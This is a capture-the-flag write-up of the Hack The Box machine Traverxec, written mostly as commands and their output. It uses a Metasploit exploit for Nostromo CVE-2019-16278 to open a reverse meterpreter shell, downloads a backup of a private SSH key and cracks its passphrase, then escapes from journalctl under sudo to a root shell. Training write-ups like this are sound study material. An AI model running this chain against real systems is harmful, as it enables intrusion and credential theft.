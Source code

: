 # Target
| Category          | Details                                                    |
|-------------------|------------------------------------------------------------|
| 📝 **Name**       | [Traverxec](https://app.hackthebox.com/machines/Traverxec) |  
| 🏷 **Type**       | HTB Machine                                                |
| 🖥️ **OS**        | Linux                                                      |
| 🎯 **Difficulty** | Easy                                                       |

# Scan
```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.83 seconds
```

# Attack path
1. [Gain foothold with RCE in Nostromo 1.9.6 HTTP server (CVE-2019-16278)](#gain-foothold-with-rce-in-nostromo-196-http-server-cve-2019-16278)
2. [Escalate to `david` user due to unrestricted access to backup of private SSH key](#escalate-to-david-user-due-to-unrestricted-access-to-backup-of-private-ssh-key)
3. [Escalate to `root` user due to misconfiguration in sudo access to `journalctl`](#escalate-to-root-user-due-to-misconfiguration-in-sudo-access-to-journalctl)

### Gain foothold with RCE in Nostromo 1.9.6 HTTP server ([CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)) 
```
┌──(magicrc㉿perun)-[~/attack/HTB Traverxec]
└─$ msfconsole -q -x "use multi/http/nostromo_code_exec; set RHOSTS $TARGET; set LHOST tun0; set LPORT 4444; set target 1; set payload linux/x86/meterpreter/reverse_tcp; run"
[*] Using configured payload cmd/unix/reverse_perl
RHOSTS => 10.129.228.202
LHOST => tun0
LPORT => 4444
target => 1
payload => linux/x86/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.161:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x86/meterpreter/reverse_tcp command stager
[*] Sending stage (1017704 bytes) to 10.129.228.202
[*] Meterpreter session 1 opened (10.10.14.161:4444 -> 10.129.228.202:43290) at 2025-05-10 16:50:40 +0200
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > getuid
Server username: www-data
```

### Escalate to `david` user due to unrestricted access to backup of private SSH key
Nostromo `/var/nostromo/conf/nhttpd.conf` shows that user home dir might contain `public_www`
```
homedirs                /home
homedirs_public         public_www
```

#### Exfiltrate `backup-ssh-identity-files.tgz`
```
meterpreter > download /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

#### Crack private SSH key password
```
┌──(magicrc㉿perun)-[~/attack/HTB Traverxec]
└─$ tar -zxf backup-ssh-identity-files.tgz && \
ssh2john home/david/.ssh/id_rsa > id_rsa.hash && \
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)     
1g 0:00:00:00 DONE (2025-05-10 17:06) 6.666g/s 1066p/s 1066c/s 1066C/s diamond..heather
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

#### Confirm escalation
```
┌──(magicrc㉿perun)-[~/attack/HTB Traverxec]
└─$ ssh -i home/david/.ssh/id_rsa david@$TARGET
Enter passphrase for key 'home/david/.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev) 
```

### Escalate to `root` user due to misconfiguration in sudo access to `journalctl`

#### Identify vulnerability in `bin/server-stats.sh`
```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

#### As `www-data` user generate 'long' log which will spawn `less` on call to `journalctl`
```
meterpreter > shell
Process 985 created.
Channel 3 created.
logger "$( head -c 10000 < /dev/urandom | tr -dc 'A-Za-z0-9')"
```

#### Execute `journalctl` as root w/o piped `/usr/bin/cat` to spawn `less`
```
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

#### Spawn root shell from `less`
In `less`
```
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
